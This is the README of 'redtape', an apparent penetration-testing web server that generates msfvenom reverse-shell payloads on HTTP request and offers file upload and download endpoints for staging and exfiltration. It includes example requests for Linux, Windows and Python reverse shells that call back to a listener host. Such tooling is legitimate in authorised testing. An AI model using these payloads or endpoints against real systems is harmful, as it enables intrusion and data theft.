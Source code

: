 # redtape
A webserver designed around penetration testing. Allows the automatic generation and download of msfvenom payloads on a web request, and provides a simple file upload/download endpoint using raw GET and POST requests. It also logs all requests for data exfiltration.

---

# Usage
Start the server with `redtape`

Send http requests with this format: `http://<host>:<port>/<COMMAND>?<OPTIONS>`

## COMMAND msfvenom
Generates an msfvenom payload and returns it as a file download.
Options are passed as query parameters. You must pass PAYLOAD and LHOST.
When passing a PAYLOAD, you must pass either the full PAYLOAD ('linux/x64/shell_reverse_tcp') or an OS. When specifying an OS, the payload is shell_revrese_tcp, with a default ARCH of x64.

### EXAMPLE
Linux default payload (shell_reverse_tcp), default ARCH (x64) and default PORT (4444)  
`GET http://127.0.0.1/msfvenom?os=linux&format=elf&lhost=127.0.0.1`

Windows staged reverse TCP shell  
`GET http://127.0.0.1/msfvenom?payload=windows/x86/shell/reverse_tcp&format=exe&lhost=127.0.0.1`

Python reverse UDP shell  
`GET http://127.0.0.1/msfvenom?payload=python/shell_reverse_udp&lhost=192.168.45.100&lport=25565`

## COMMAND download
Download a file from DOWNLOAD_DIR

### EXAMPLE
Download DOWNLOAD_DIR/file.txt  
`GET http://127.0.0.1/download/file.txt`

## COMMAND upload
Accepts a file via the form data of a POST request and saves it to UPLOAD_DIR.

### EXAMPLE
Upload a file. The filename should be automatically specified in the post data.  
`POST http://127.0.0.1/upload`
